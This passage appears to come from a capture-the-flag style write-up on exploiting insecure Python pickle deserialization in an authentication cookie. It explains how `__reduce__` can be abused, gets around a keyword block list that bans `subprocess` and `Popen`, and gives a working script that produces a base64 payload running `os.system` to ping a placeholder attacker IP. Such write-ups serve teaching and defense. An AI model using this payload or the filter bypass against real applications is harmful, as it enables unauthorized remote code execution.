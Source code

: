 We know that we control a value that will be passed to `pickle.loads()`. If we take a look at the [documentation](https://docs.python.org/3/library/pickle.html#object.__reduce__) about (un-)pickling in Python 3, we will find a lot of information describing the process. The section which is interesting for us right now is the description for the `object.__reduce__()` function.

Reading about `object.__reduce__()`, we see that it returns a tuple that contains:

- A callable object that will be called to create the initial version of the object.

- A tuple of arguments for the callable object.


What this means exactly is that when a pickled object is unpickled, if the pickled object contains a definition for `__reduce__`, it will be used to restore the original object. We can abuse this by returning a callable object with parameters that result in command execution.

Included in the list of words banned by `util.auth.cookieToSession` are `subprocess` and `Popen`. This would be one way to achieve command execution in Python (e.g. `subprocess.Popen(["ls", "-l"])`). There are, of course, many other ways to achieve this, so to bypass the filter, we can choose something else.

In this case, we want to execute `os.system("ping -c 5 <ATTACKER_IP>")`, just to check if the command execution works. This means we will need to define `__reduce__` so it returns `os.system` as the callable object and `"ping -c 5 <ATTACKER_IP>"` as the argument. Since `__reduce__` requires a [tuple](https://www.w3schools.com/python/python_tuples.asp) of arguments we will use `("ping -c 5 <ATTACKER_IP>",)`. We create a new file named `exploit-rce.py` with the following contents:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("ping -c 5 <ATTACKER_IP>",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())

```

Running this file, we will get a base64-encoded value that we should be able to set the authentication cookie to and achieve RCE.

```shell
python3 exploit-rce.py

gASVLwAAAAAAAACMBXBvc2l4lIwGc3lzdGVt...SNIP...SFlFKULg==

```

#### Testing Locally

If we test the payload locally...
